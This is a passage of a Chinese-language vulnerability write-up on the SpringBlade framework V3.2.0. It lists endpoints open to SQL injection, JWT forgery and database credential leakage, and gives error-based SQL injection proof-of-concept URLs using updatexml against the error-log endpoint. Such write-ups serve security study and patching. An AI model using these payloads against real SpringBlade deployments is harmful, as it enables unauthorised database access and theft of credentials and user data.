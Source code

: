 在V3.2.0中SQL注入类漏洞主要存在一下接口中：

```bash
/api/blade-log/error/list
/api/blade-log/usual/list
/api/blade-user/export-user
/api/blade-system/menu/list
/api/blade-system/dict/list
```

#### 第二类：伪造JWT授权访问类：

伪造JWT在配合 `/api/blade-user/user-list`接口使用。

#### 第三类：泄露数据库账号密码：

```bash
/api/blade-develop/datasource/list
```

###  SQL注入类

#### /blade-log/error/list

/api/blade-log/error/list 接口：

在blade-log服务模块中，作用是**查询错误日志信息表**。

http://localhost:1888/api/blade-log/error/list

![image-20241106161141172](https://image.201068.xyz/assets/12.spring-blade框架/image-20241106161141172.png)

那么可以构造**SQL报错注入**。

![image-20241106092715465](https://image.201068.xyz/assets/12.spring-blade框架/image-20241106092715465.png)

只要`version()`版本大于`8.0.X`可以实现注入。

那么把`version()`换成其他比如`user()`等实现SQL注入攻击。

##### POC

请求方式：GET

完整POC

```bash
http://{ip}:{port}/api/blade-log/error/list?updatexml(1,concat(0x7e,version(),0x7e),1)=1

http://localhost:1888/api/blade-log/error/list?updatexml(1,concat(0x7e,version(),0x7e),1)=1

http://localhost/blade-log/error/list?updatexml(1,concat(0x7e,version(),0x7e),1)=1
```



#### /blade-log/usual/list

`/api/blade-log/usual/list`接口：也是`blade-log`服务模块下查询通用日志的接口。
